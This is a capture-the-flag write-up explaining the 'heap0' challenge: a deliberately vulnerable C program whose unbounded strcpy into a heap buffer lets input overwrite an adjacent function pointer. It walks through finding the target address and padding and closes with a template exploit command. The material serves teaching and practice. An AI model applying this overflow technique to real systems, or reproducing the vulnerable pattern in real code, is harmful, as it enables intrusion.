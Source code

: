 ```yaml
---
title:  "Writeup: heap0"
date:   2019-04-13 5:00:00
categories: writeup
layout: post
author: Kyle Savell
---
```


In stack0, we were tasked with overflowing a buffer to manipulate a local variable on the stack. Similarly, in heap0 we are tasked with overflowing a buffer to manipulate data, but this time in dynamically allocated data in the heap. Here is the source code we are given to work with:


```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
                                                                                                                           
struct data {
  char name[64];
};                                                                                                                         
                                                                                                                           
struct fp {
  int (*fp)();
};                                                                                                                         
                                                                                                                           
void winner()
{                                                                                                                          
  char buffer[64];
  FILE *fp;
                                                                                                                           
  printf("Level passed\n");
                                                                                                                           
  fp = fopen("./flag.txt", "r");
                                                                                                                           
  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
}                                                                                                                          
                                                                                                                           
void nowinner()
{                                                                                                                          
  printf("level has not been passed\n");
}
                                                                                                                           
int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;
                                                                                                                           
  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;                                                                                                        
                                                                                                                           
  printf("data is at %p, fp is at %p\n", d, f);
                                                                                                                           
  strcpy(d->name, argv[1]);
                                                                                                                           
  f->fp();                                                                                                                 
}
```

This challenge contains a sizable source code, so let's break it down piece by piece.

```c
struct data {
  char name[64];
}; 
```

The first piece of code is `data`, which is a `struct`. Structs are only put in memory when memory is explicitly allocated for them using a command such as `malloc`, so whenever a new `data` struct is `malloc`'ed in the source code it will be put onto the heap. The only structure inside `data` is a 64-byte buffer (we'll need this later).

```c
struct fp {
  int (*fp)();
};  
```

The next bit of code is also a struct, `fp`. The syntax `int (*fp)();` is a structure that is referring to a function pointer - it will hold the address of a function so that it can be called from the struct.

```c
void winner()
{                                                                                                                          
  char buffer[64];
  FILE *fp;
                                                                                                                           
  printf("Level passed\n");
                                                                                                                           
  fp = fopen("./flag.txt", "r");
                                                                                                                           
  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
} 
```

`winner` is the function that needs to be called in order to complete the challenge. There is no hoops to jump through inside of the function itself, we just need to be able to access it.

```c
void nowinner()
{                                                                                                                          
  printf("level has not been passed\n");
}
```

`nowinner` is the function that will be called when the binary is not exploited correctly.

```c
int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;
                                                                                                                           
  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;                                                                                                        
                                                                                                                           
  printf("data is at %p, fp is at %p\n", d, f);
                                                                                                                           
  strcpy(d->name, argv[1]);
                                                                                                                           
  f->fp();                                                                                                                 
}
```

The `main` function encapsulates all of the above snippets of code. At the beginning of `main` a `data` struct and a `fp` struct are created, so both structs are placed on the heap (note that the `data` struct is `malloc`'ed first). In the line directly below the memory allocations for the structs, the function pointer that is inside the created `fp` struct is set to the `nowinner` function. Below this is a `printf` line, which we will come back to in a minute. Next, `strcpy` is used to copy the first argument of `heap0` into the 64-byte buffer in the created `data` struct. Lastly, `f->fp();` will call the function that is stored inside the `fp` struct, which was set to `nowinner` before, so by default `nowinner` will be called and then the program will terminate.

Let's run the program to see what happens. When you do, you will see a print statement show up and then the program will end.

```
data is at 0x804b008, fp is at 0x804b050
```

This is the `printf` that we skipped over before. If we dig into the line of code, we see two `%p` specifiers, which print out pointers. In particular, this print statement is printing out the addresses of the `data` and `fp` structs on the heap.

Using our knowledge from stack0 and how this binary is set up, we can start to formulate a plan of attack. At the end of `main`, we know that the `nowinner` function is being called and then the program ends. What we want is the `winner` function to be called instead, meaning that we want the function pointer inside of `fp` to be pointing to the function address of `winner`.

In order to accomplish this, a buffer overflow can be used. We want to overwrite the address that is stored in `fp`, but how do we do this? If you recall, there is a 64-byte buffer stored in the `data` struct. This buffer is filled with input from the first heap0 function argument using `strcpy`. If we use `man strcpy` to look at what this function does, we see that it copies a string from a source to a destination buffer, but it does not appear to limit the length of the source. Judging by the helpful line `Beware of buffer overruns!` we can assume that we can indeed use this function to cause a buffer overflow.

How will we know what the payload will be? We know that we want to overwrite the function pointer in `fp` with the address of `winner`, but what is that address and how do we put it in the correct memory location? First, let's find the address of `winner`. We can use the handy command `objdump -d` to show a complete disassembly of heap0. Alternatively, in gdb `disas winner` will show just the disassembly of the `winner` function.

```
0804851b <winner>:                                                                                                         
 804851b:       55                      push   %ebp                                                                        
 804851c:       89 e5                   mov    %esp,%ebp                                                                   
 804851e:       83 ec 58                sub    $0x58,%esp                                                                  
 8048521:       83 ec 0c                sub    $0xc,%esp                                                                   
```

From the disassembly we can see the address in memory where the `winner` function starts. This is the address we are looking to use! To figure out where we need to put the address, let's take another look at the printout.

```
data is at 0x804b008, fp is at 0x804b050
```

If we look at the address for `data`, we see that the address is smaller than the address of `fp`. In the heap addresses "grow" upwards, so becase `data` was conveniently `malloc`'ed before `fp`, the buffer is in a location where overflowing it can cause `fp` to be overwritten. It is important to clarify that the address of `data` is the address of the beginning of the buffer, and the address of `fp` is the address that `nowinner` is being stored at. This means that regardless of the buffer size, the byte padding to put before the address of `winner` in our exploit string will be `0x804b050 - 0x804b008`.

Pulling all of this together, we will have an exploit string that will look like:

```
./heap0 "`python -c 'print (padding) + (winner address)'`"
```
